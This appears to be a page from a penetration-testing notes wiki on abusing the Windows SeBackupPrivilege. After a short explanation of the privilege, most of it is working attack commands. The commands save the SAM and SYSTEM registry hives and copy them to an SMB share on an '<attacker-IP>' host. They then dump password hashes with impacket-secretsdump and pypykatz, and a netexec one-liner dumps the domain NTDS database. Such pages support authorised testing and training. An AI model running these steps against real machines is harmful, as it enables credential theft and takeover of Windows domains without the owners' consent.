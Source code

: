 # SeBackupPrivilege

A Windows privilege that allows **bypassing standard ACL checks** to read files and registry hives during backup operations. Assigned by default to `Administrators`, [`Backup Operators`](../groups/backup-operators.md), and `Server Operators` but **disabled in user tokens by default**.&#x20;

Backup-aware tools (e.g., `reg.exe`, `robocopy`, `ntbackup`) explicitly enable this privilege at runtime to access protected objects regardless of ACLs.

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

{% tabs %}
{% tab title="Dump" %}
Move to a [writeable directory](../../host-recon.md#writable-directories) and copy the hives:

```powershell
# Move to a writeable directory
cd c:\windows\temp

# Copy the SAM and SYSTEM hives
reg save hklm\sam c:\windows\temp\sam
reg save hklm\system c:\windows\temp\system
```

Transfer the hives to the attacking host (preferrable via SMB and not WinRM):

```bash
# Start an SMB server
sudo impacket-smbserver share -smb2support / -user test -password test
```

Connect and copy the hives:

```powershell
# Connect to the share
net use z: \\<attacker-IP>\share /user:test test

# Copy the hives
copy sam z:\
copy system z:\
```

Dump the creds on the attacking host:

```bash
# Dump creds with impacket
impacket-secretsdump -sam sam -system system LOCAL

# Dump creds with pypykatz
pypykatz registry --sam sam system
```
{% endtab %}

{% tab title="nxc" %}
If the credentials of the `Backup Operators`'s member are available:

```bash
nxc smb 192.168.210.16 -u administrator -p Password123! --ntds vss
```
{% endtab %}
{% endtabs %}
